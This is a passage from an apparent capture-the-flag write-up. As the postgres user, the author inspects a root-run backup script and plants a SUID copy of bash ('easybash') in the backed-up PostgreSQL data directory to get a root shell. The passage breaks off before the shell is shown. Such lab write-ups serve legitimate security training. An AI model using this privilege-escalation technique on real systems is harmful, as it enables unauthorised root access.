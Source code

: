A command named `backup` is running. Let's see what it is.

```zsh
postgres@slonik:/$ cat /usr/bin/backup
cat /usr/bin/backup
#!/bin/bash

date=$(/usr/bin/date +"%FT%H%M")
/usr/bin/rm -rf /opt/backups/current/*
/usr/bin/pg_basebackup -h /var/run/postgresql -U postgres -D /opt/backups/current/
/usr/bin/zip -r "/var/backups/archive-$date.zip" /opt/backups/current/

count=$(/usr/bin/find "/var/backups/" -maxdepth 1 -type f -o -type d | /usr/bin/wc -l)
if [ "$count" -gt 10 ]; then
  /usr/bin/rm -rf /var/backups/*
fi
```

Reading the script, we can tell that it's a simple script for **backup, archiving**, and **deleting old archives**.

The fact that all these operations are performed by **root** is really nice.\
From here, we can easily obtain a **root shell**.

```bash
postgres@slonik:/var/lib/postgresql/14/main$ cp /bin/bash easybash
cp /bin/bash easybash
postgres@slonik:/var/lib/postgresql/14/main$ chmod 4755 easybash
chmod 4755 easybash
postgres@slonik:/var/lib/postgresql/14/main$ ls -lah
ls -lah
total 1.5M
drwx------ 19 postgres postgres 4.0K Apr 18 18:46 .
drwxr-xr-x  3 postgres postgres 4.0K Oct 23  2023 ..
-rw-------  1 postgres postgres    3 Oct 23  2023 PG_VERSION
drwx------  7 postgres postgres 4.0K Oct 24  2023 base
-rwsr-xr-x  1 postgres postgres 1.4M Apr 18 18:46 easybash
drwx------  2 postgres postgres 4.0K Apr 18 17:12 global
drwx------  2 postgres postgres 4.0K Oct 23  2023 pg_commit_ts
drwx------  2 postgres postgres 4.0K Oct 23  2023 pg_dynshmem
drwx------  4 postgres postgres 4.0K Apr 18 18:46 pg_logical
drwx------  4 postgres postgres 4.0K Oct 23  2023 pg_multixact
drwx------  2 postgres postgres 4.0K Oct 23  2023 pg_notify
drwx------  2 postgres postgres 4.0K Apr 18 18:46 pg_replslot
drwx------  2 postgres postgres 4.0K Oct 23  2023 pg_serial
drwx------  2 postgres postgres 4.0K Oct 23  2023 pg_snapshots
drwx------  2 postgres postgres 4.0K Apr 18 17:11 pg_stat
drwx------  2 postgres postgres 4.0K Oct 23  2023 pg_stat_tmp
drwx------  2 postgres postgres 4.0K Oct 23  2023 pg_subtrans
drwx------  2 postgres postgres 4.0K Oct 23  2023 pg_tblspc
drwx------  2 postgres postgres 4.0K Oct 23  2023 pg_twophase
drwx------  3 postgres postgres 4.0K Apr 18 18:46 pg_wal
drwx------  2 postgres postgres 4.0K Oct 23  2023 pg_xact
-rw-------  1 postgres postgres   88 Oct 23  2023 postgresql.auto.conf
-rw-------  1 postgres postgres  130 Apr 18 17:11 postmaster.opts
-rw-------  1 postgres postgres   98 Apr 18 17:11 postmaster.pid
```
